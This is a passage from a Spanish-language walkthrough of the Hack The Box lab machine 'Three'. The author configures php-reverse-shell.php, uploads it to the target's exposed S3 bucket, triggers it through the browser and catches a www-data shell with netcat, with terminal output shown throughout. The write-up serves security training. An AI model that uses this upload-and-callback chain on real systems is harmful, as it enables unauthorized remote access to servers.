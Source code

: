 La editamos con los datos correctos.

```
[...]
$ip = '10.10.xx.xx';  // CHANGE THIS    <- nuestra IP local
$port = 4321;       // CHANGE THIS      <- el puerto en el que estaremos escuchando
[...]
```

La subimos al bucket

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/HTB/Tier1]
└─$ aws s3 --endpoint=http://s3.thetoppers.htb cp php-reverse-shell.php s3://thetoppers.htb
upload: ./php-reverse-shell.php to s3://thetoppers.htb/php-reverse-shell.php
```

Abrimos una pestaña nueva en nuestro terminal e iniciamos **netcat** poniéndolo a escuchar en el puerto que hemos configurado en el fichero de la shell.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/HTB/Tier1]
└─$ nc -lvnp 4321
listening on [any] 4321 ...
```

Significado de las flags:

* `-l`&nbsp;: listen mode.
* `-v`&nbsp;: verbose.
* `-n`&nbsp;: solo IP numéricas, no DNS.
* `-p`&nbsp;: nro de puerto local.

Cargamos en el browser `http://thetoppers.htb/php-reverse-shell.php`&nbsp;&nbsp;y volvemos al **netcat**

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/HTB/Tier1]
└─$ nc -lvnp 4321
listening on [any] 4321 ...
connect to [10.10.xx.xx] from (UNKNOWN) [10.129.71.219] 42754
Linux three 4.15.0-189-generic #200-Ubuntu SMP Wed Jun 22 19:53:37 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 21:46:40 up  3:08,  0 users,  load average: 1.01, 1.76, 1.78
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

Bien. Toca trastear.

```console
[...]
/bin/sh: 0: can't access tty; job control turned off
$ pwd
/
$ ls -la
total 92
drwxr-xr-x  22 root root  4096 Jul 19 12:19 .
drwxr-xr-x  22 root root  4096 Jul 19 12:19 ..
drwxr-xr-x   2 root root  4096 Jul 19 12:19 bin
drwxr-xr-x   4 root root  4096 Jul 19 12:08 boot
drwxr-xr-x  19 root root  3880 Aug 10 18:37 dev
drwxr-xr-x 107 root root  4096 Aug  1 14:48 etc
drwxr-xr-x   3 root root  4096 Jul 19 12:19 home
lrwxrwxrwx   1 root root    34 Jul 19 12:05 initrd.img -> boot/initrd.img-4.15.0-189-generic
lrwxrwxrwx   1 root root    34 Jul 19 12:08 initrd.img.old -> boot/initrd.img-4.15.0-189-generic
drwxr-xr-x  22 root root  4096 Jul 19 11:59 lib
drwxr-xr-x   2 root root  4096 Jul 19 12:19 lib64
```
